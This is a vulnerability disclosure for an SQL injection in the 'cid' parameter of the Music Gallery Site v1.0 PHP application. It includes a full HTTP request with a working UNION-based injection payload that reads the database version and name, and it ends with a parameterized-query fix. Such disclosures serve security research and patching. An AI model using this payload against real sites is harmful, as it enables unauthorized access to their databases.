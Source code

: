 # Music Gallery Site - SQL Injection on page music_list.php and parameter cid is vulnerable, application url is (?page=music_list&cid=?). 
>Any remote attacker can access this page to exploit the vulnerbility.

### Date: 
> 21 February 2023
### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> music_list.php
> On this page cid parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: /?page=music_list&cid=*
### Description:
> The Music Gallery site does have public pages for music library, on music list there is an SQL injection to filter out the music list with category basis.
### Proof of Concept:
> Following steps are involved:
1. Go to the category menu and click on view category.
2. In URL, there is a parameter 'cid' which is vulnerable to SQL injection (?page=music_list&cid=4*)
### Request:
```
GET /php-music/?page=music_list&cid=5%27+and+false+union+select+1,version(),database(),4,5,6,7--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
### Response:

![image](https://user-images.githubusercontent.com/123810418/220299762-3a0c02cf-364b-49a0-81e5-e7f3f6ed298b.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM `category_list` where `id` = :id and `delete_flag` = 0 and `status` = 1");
$sql->bindparam(':id', $cid);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
